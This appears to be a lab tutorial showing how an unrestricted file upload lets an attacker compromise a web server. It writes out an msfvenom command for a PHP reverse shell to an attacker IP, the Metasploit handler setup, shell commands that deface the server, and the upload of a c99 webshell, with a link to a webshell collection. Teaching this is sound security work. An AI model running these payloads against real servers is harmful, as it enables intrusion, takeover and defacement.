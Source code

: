# File Upload

In this example, we'll show the possibility of sending a malicious file to the Web application, and thereby compromise the server where it is hosted. For that we will use Metasploit to create a malicious payload.

![](../assets/fu01.png)

After a successful upload to the server, the web application shows a success message revealing the directory where the file was stored. It is also possible to verify that the application accepts as upload any type of file and not only an image.

Since the form allows uploads of other types of files, we will create a malicious file and send it to the server through this upload mechanism. To do this, we'll use "**Metasploit**", which through the application "`msfvenom`" allows the creation of malicious payloads.

With the following command it is possible to create a "**reverse shell**", in PHP, which when executed opens a connection between the server and the attacker's machine, allowing the attacker to control it.

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.8.141 LPORT=4444 R > malicious_payload.php

    No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    No Arch selected, selecting Arch: php from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 949 bytes

Then you need to edit the payload (malicious_payload.php), and remove the initial comment, and save the file again.

![](../assets/fu02.png)

Next we'll use Metasploit to create a service that listens for the connection from the attacker's malicious script.

    msfconsole
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.8.141
    set LPORT 4444
    exploit

    [*] Started reverse handler on 192.168.8.141:4444 
    [*] Starting the payload handler...

It is then possible to upload the malicious script to the application and the server.

![](../assets/fu03.png)

Once the application reveals where it is stored, it is possible to go to that same directory, select the malicious script and run it.

![](../assets/fu04.png)

After running the script, we can see in the Metasploit console (on the attacker's side) that it has received a connection from the victim (the web server, where the vulnerable application resides), and that it is now possible to use the `meterpreter` to perform actions on the victim.

![](../assets/fu05.png)

In this "`meterpreter`" we can launch a shell on the remote machine and execute several commands there.

    shell

We can execute several commands there, including creating files with messages by the attacker.

    uptime
    pwd
    whoami
    w
    echo "Pwned by SOMEONE!" > hacked.html

At the end we can see that a file "hacked.html" was created on the server.
 
When we click on that file, we can see the message that was placed there!

Moreover, we might also use this "`meterpreter`" shell, to upload more malicious scripts to the server. We might for instance upload a webshell to the server. We can use the same webshell we've used before - `c99.php`. [Here](https://www.r57shell.net/), you have a collection of such shells.

    upload c99.php

![](../assets/fu06.png)

Then, going back to the web application and looking at the files we have on the upload directory, we can select the `c99.php` script.

![](../assets/fu07.png)

When it is executed, you have access to a shell that allows you to navigate through the system!

![](../assets/fu08.png)